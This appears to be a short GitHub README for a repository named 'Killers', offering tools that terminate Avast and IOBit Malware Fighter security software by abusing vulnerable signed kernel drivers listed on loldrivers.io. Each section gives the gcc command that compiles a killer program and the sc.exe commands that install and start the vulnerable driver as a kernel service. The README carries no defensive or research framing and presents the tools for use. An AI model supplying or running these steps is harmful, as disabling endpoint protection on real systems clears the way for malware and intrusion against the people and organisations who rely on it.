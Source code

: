 # Killers

<p align="center">
  <img src="https://github.com/xalicex/Killers/blob/main/killers.jpg"  width=40% height=40% >
</p>

## Avast

https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

```
x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 
sc.exe create aswArPot.sys binPath= C:\windows\temp\aswArPot.bin type= kernel && sc.exe start aswArPot.sys
```

## IOBit Malware Fighter

https://www.loldrivers.io/drivers/fe2f68e1-e459-4802-9a9a-23bb3c2fd331

```
x86_64-w64-mingw32-gcc -o iobit_malwarefighter_killer.exe iobit_malwarefighter_killer.c 
sc.exe create kEvP64.sys binPath= C:\windows\temp\kEvP64.bin type= kernel && sc.exe start kEvP64.sys
```
